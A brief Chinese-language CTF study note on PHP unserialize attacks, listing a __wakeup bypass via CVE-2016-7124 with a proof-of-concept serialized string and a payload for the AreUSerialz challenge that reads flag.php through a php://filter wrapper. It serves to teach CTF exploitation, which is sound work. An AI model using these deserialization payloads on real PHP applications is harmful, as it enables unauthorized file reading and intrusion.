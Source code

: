 # PHP Unserialize

> 反序列化 all in one: https://blog.csdn.net/solitudi/article/details/113588692

## Tricks

### __wakeup 绕过

* PHP **CVE-2016-7124**：**当成员属性个数超过实际个数时，跳过`wakeup`**

* Example: *[极客大挑战 2019]PHP*

  ```php
  // Origin
  O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
  // PoC
  O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
  ```


### 成员类型

* PHP 7.1 以上不严格要求成员类型（public/private/protected），可以用`public`绕过过滤





## Examples

### [网鼎杯 2020 青龙组]AreUSerialz

* 通过`public`类型绕过`valid`字符串可打印检查
* `op`数字绕过弱等检查
* php伪协议读取文件内容

payload：

```php
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";s:8:"test1337";}
```

